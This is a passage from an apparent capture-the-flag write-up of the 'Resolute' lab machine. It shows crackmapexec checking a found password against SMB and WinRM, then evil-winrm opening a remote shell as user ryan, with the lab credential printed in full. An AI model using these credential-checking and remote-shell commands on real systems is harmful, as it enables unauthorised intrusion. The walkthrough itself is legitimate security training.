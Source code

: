 ryan actually isn’t in Remote Management Users. But he is in Contractors, and Contractors is:

```
*Evil-WinRM* PS C:\> net localgroup "Remote Management Users"
Alias name     Remote MAnagement Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members
-------------------------------------------------------------------------------
Contractors
melanie
The command completed successfully.

```

From my Kali box, I can also check the creds with `crackmapexec`:

```

root@kali# crackmapexec smb 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\ryan:Serv3r4Admin4cc123! (Pwn3d!)

```

The creds are valid for SMB. The `(Pwn3d!)` there sent me down a rabbit hole that I haven’t found the end of yet and thus didn’t make it into this post. That typically indicates that ryan can PSExec, but it fails. I’ve walked the source code and understand what is happening. There might even be a shell out of it (but also maybe not). I’ll see if the rabbit hole makes an interesting follow on blog post. Anyway…

`crackmapexec` can also check WinRM, and ryan can authenticate:

```

root@kali# crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
WINRM       10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] MEGABANK\ryan:Serv3r4Admin4cc123! (Pwn3d!)

```

#### Shell

As shown above (or most of us probably just found out when trying it), the creds work to get a shell as ryan:

```

root@kali# evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'

Evil-WinRM shell v2.1

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>

```
